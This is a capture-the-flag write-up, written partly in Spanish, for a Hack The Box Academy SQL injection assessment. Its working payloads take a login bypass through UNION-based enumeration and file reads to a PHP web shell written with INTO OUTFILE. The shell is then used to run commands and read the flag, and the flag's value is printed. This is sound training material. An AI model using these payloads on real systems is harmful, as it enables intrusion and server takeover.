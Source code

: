 # Write-up: Fundamentos de inyección SQL

| Vulnerabilidad | Dificultad | Plataforma | Conceptos Clave |
| :--- | :--- | :--- | :--- |
| Inyección SQL | Medium | Hack The Box Academy | Detección de SQLi, `UNION`-based, Exfiltración de datos |

---

# Context

The company Inlanefreight has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

# Excersise

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

# Process

## Step 1
Try to access without credentials using:

```SQL
admin' or '1' = '1'
```

![Login screen with query to get access](./assets/login.png "Login Screen")

## Step 2
Once we have access to the site we see a table with information.

We need to check how many columns has this table so we can do a `UNION` with another info.

In this case it has 5, we know that because if we try to `ORDER BY 6-- `it throws an error, but with `ORDER BY 5-- ` it works.
![alt text](./assets/table_order_by.png "Title")

## Step 3
Now we want to know if we have super privileges, the current user and the version of the DBMS.

To do that we can use:
```SQL
cn' UNION SELECT 1, super_priv, CURRENT_USER(), @@VERSION, 5 FROM mysql.user WHERE user="root"-- 
```
![alt text](./assets/check_user.png "Title")

## Step 4
To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We already have the `FILE` privilege enabled, we need to know the value of the `secure_file_priv`.
```SQL
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
![alt text](./assets/empty_secure_file_priv.png "Title")

As we notice, the second column is empty, that means the variable is **not** enabled.

## Step 5
A usual route for the configuration file in Debian/Ubuntu systems is `000-default.conf`

Now let's get the route to save the file with:
```SQL
cn' union select 1, load_file('/etc/apache2/sites-enabled/000-default.conf'), 3, 4, 5--
```
We are gonna get a large text with a DocumentRoot value, in this case the value is `/var/www/html`.
![alt text](./assets/doc_root.png "Title")

## Step 6
Save the file in the right path with:
```SQL
cn' union select 1,'<?php echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; ?>',3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- 
```

## Step 7
Explore the files of the server with the `shell.php` file we just created:
http://94.237.57.115:30683/dashboard/shell.php?cmd=ls%20../../../../

## Step 8
Read the flag with 
http://94.237.57.115:30683/dashboard/shell.php?cmd=cat%20../../../../flag_cae1dadcd174.txt
![alt text](./assets/flag_path.png "Title")

### Result
> 528d6d9cedc2c7aab146ef226e918396

# Conclusion
This exercise demonstrates the critical importance of input validation. A simple unprotected search field can lead to a complete database compromise. Code-level remediation is the only effective solution.
